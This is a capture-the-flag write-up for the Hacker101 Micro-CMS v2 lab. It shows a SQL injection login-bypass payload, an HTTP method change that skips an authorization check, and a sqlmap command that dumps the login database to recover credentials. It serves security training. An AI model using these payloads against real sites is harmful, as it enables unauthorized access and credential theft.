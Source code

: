 ```yaml
---
title: Micro-CMS v2
published: true
tags: Hacker101
---
```


# Flag 0

### Hints:
* Regular users can only see public pages
* Getting admin access might require a more perfect union
* Knowing the password is cool, but there are other approaches that might be easier


I go to the login page, test some popular logins and passwords, but nothing works. Then I type an apostrophe for the username that causes this error:

![SQL query error](/assets/micro-cms-v2/flag0/sql_error.png)

I am creating the following load for the bypass login form:
```
username: admin' union select 'test' as password #
password: test
```

![Admin home page](/assets/micro-cms-v2/flag0/pv_page.png)

Go to private page and read flag:

![Flag](/assets/micro-cms-v2/flag0/flag.png)

***

# Flag 1

### Hints:
* What actions could you perform as a regular user on the last level, which you can't now?
* Just because request fails with one method doesn't mean it will fail with a different method
* Different requests often have different required authorization

In Micro-CMS v1 regular users can edit pages. Micro-CMS v2 requires admin privileges. Change request type to get flag:

![Orginal request](/assets/micro-cms-v2/flag1/orginal)request.png)

Change, and send. In response is flag:
![Flag](/assets/micro-cms-v2/flag1/flag.png)

***

# Flag 2

### Hints:
* Credentials are secret, flags are secret. Coincidence? 

Use sql injection to fetch data from the database. Login form is vulnerable. I use sqlmap:
```
sqlmap -u http://35.190.155.168/xxxxxxx/login --data "username=test&password=test" --dump
```

![Credentials](/assets/micro-cms-v2/flag2/credentials.png)

Login with those credentials, and read flag:

![Flag](/assets/micro-cms-v2/flag2/flag.png)
